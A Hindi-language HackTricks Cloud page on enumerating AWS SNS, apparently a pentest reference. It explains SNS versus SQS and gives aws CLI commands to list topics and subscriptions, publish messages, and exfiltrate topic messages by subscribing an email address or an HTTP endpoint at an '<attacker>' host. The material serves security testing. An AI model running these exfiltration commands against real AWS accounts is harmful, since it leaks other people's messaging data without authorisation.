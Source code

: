 # AWS - SNS Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) एक **पूरी तरह से प्रबंधित संदेश सेवा** है जो **एप्लिकेशन-से-एप्लिकेशन** (A2A) और **एप्लिकेशन-से-व्यक्ति** (A2P) संचार के लिए है।

A2A pub/sub कार्यक्षमता **विषयों** को प्रदान करती है जो वितरित प्रणालियों, माइक्रोसर्विसेज, और इवेंट-चालित सर्वरलेस एप्लिकेशनों के बीच उच्च-थ्रूपुट, **पुश-आधारित, अनेक-से-अनेक** संदेशन के लिए है। Amazon SNS विषयों का उपयोग करके, आपके प्रकाशक प्रणालियाँ संदेशों को **बड़ी संख्या में ग्राहक प्रणालियों** को फैला सकती हैं।

### **SQS के साथ अंतर**

**SQS** एक **कतार-आधारित** सेवा है जो बिंदु-से-बिंदु संचार की अनुमति देती है, यह सुनिश्चित करती है कि संदेशों को एक **एकल उपभोक्ता** द्वारा संसाधित किया जाए। यह **कम-से-कम-एक बार वितरण** प्रदान करती है, मानक और FIFO कतारों का समर्थन करती है, और पुनः प्रयासों और विलंबित प्रसंस्करण के लिए संदेश संरक्षण की अनुमति देती है।\
दूसरी ओर, **SNS** एक **प्रकाशन/सदस्यता-आधारित सेवा** है, जो **एक-से-अनेक** संचार को सक्षम करती है, संदेशों को **एकाधिक ग्राहकों** को एक साथ प्रसारित करके। यह **विभिन्न सदस्यता अंतिम बिंदुओं जैसे ईमेल, एसएमएस, लैम्ब्डा फंक्शन्स, और HTTP/HTTPS** का समर्थन करती है, और लक्षित संदेश वितरण के लिए फिल्टरिंग तंत्र प्रदान करती है।\
जबकि दोनों सेवाएं वितरित प्रणालियों में घटकों के बीच अनकप्लिंग को सक्षम करती हैं, SQS कतारबद्ध संचार पर केंद्रित है, और SNS इवेंट-चालित, फैन-आउट संचार पैटर्न पर जोर देती है।

### **गणना**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **topic FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबर्स का इस्तेमाल किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता है)।

साथ ही, भले ही `--topic-arn` में क्षेत्र शामिल हो, सुनिश्चित करें कि आप सही क्षेत्र को **`--region`** में निर्दिष्ट करें या आपको एक त्रुटि मिलेगी जो इंगित करती है कि आपके पास पहुँच नहीं है लेकिन समस्या क्षेत्र है।
{% endhint %}

### अप्रमाणित पहुँच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### विशेषाधिकार वृद्धि

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लॉइटेशन

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### पर्सिस्टेंस

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
